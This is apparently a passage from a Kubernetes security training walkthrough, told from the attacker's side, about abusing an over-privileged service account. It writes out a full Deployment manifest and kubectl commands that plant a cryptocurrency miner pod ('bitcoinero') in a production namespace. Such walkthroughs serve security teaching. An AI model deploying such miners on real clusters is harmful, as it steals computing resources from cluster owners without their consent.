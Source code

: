 Happy day! Our service account is admin in our pod's namespace! Maybe the dashboard on port 31337 needs that much access? Anyway, this gives us what we need to achieve our goals.

```console
cd /tmp; cat > bitcoinero.yml <<EOF
apiVersion: apps/v1
kind: Deployment
metadata:
  labels:
    run: bitcoinero
  name: bitcoinero
  namespace: prd
spec:
  replicas: 1
  revisionHistoryLimit: 2
  selector:
    matchLabels:
      run: bitcoinero
  strategy:
    rollingUpdate:
      maxSurge: 25%
      maxUnavailable: 25%
    type: RollingUpdate
  template:
    metadata:
      labels:
        run: bitcoinero
    spec:
      containers:
      - image: securekubernetes/bitcoinero:latest
        name: bitcoinero
        command: ["./moneymoneymoney"]
        args:
        - -c
        - "1"
        - -l
        - "10"
        resources:
          requests:
            cpu: 100m
            memory: 128Mi
          limits:
            cpu: 200m
            memory: 128Mi 
EOF

./kubectl apply -f bitcoinero.yml
sleep 10
./kubectl get pods
```

We can see the bitcoinero pod running, starting to generate us a small but steady stream of cryptocurrency.

_MISSION ACCOMPLISHED_
